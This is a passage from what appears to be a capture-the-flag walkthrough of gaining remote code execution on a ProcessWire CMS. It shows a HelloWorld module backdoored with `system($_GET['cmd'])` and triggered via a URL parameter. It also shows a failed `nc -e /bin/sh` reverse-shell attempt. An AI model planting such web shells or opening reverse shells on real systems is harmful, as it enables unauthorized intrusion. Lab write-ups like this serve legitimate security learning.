 After login I tried to look around and see if I can find anything interesting. There were some trash files but none of them had anything good. We know that this is a CMS so maybe just like wordpress we could edit templates/plugins to get reverse shell.

I noticed that there was a section called `Module`, now the issue was that we cannot edit any existing module that means we'll have to create our own module to get a reverse shell.

I downloaded [HelloWorld module](https://modules.processwire.com/modules/helloworld/) from processwire repository. Then to get RCE with that we can edit that module.
Do the following to add `exploit` to the module:

* unzip the module.
* open `helloworld.module.php` and in the `init` function you'll notice an empty `else` condition. Add `system($_GET['cmd']);` in that.

```php
    // This last example displays a special hello message when the user is editing
    // the homepage only.
    $this->addHookBefore('ProcessPageEdit::execute', function($event) {
      $page = $event->object->getPage(); // getPage() is a method in ProcessPageEdit
      if($page->id == 1) {
        // user is editing the homepage
        $event->message("Hello {$event->user->name} - You are editing the homepage!");
      } else {
        system($_GET['cmd']);
      }
    });
```

* repack the folder with a zip and then upload the module.

![](images/fugit3/upload.png)

Then just install the module. Once the module is installed go to `page` and edit any page and then and `&cmd=ls` to the URL.

I edited the `site map` to get the RCE.

![](images/fugit3/RCE-2.png)

I tried to do `nc -e /bin/sh IP PORT` to get the reverse shell but it didn't worked. I tried various kind of code to get reverse shell but nothing worked. Then @andreaz suggested that I try to use `wafw00f` to see if there is some kind of WAF in action.
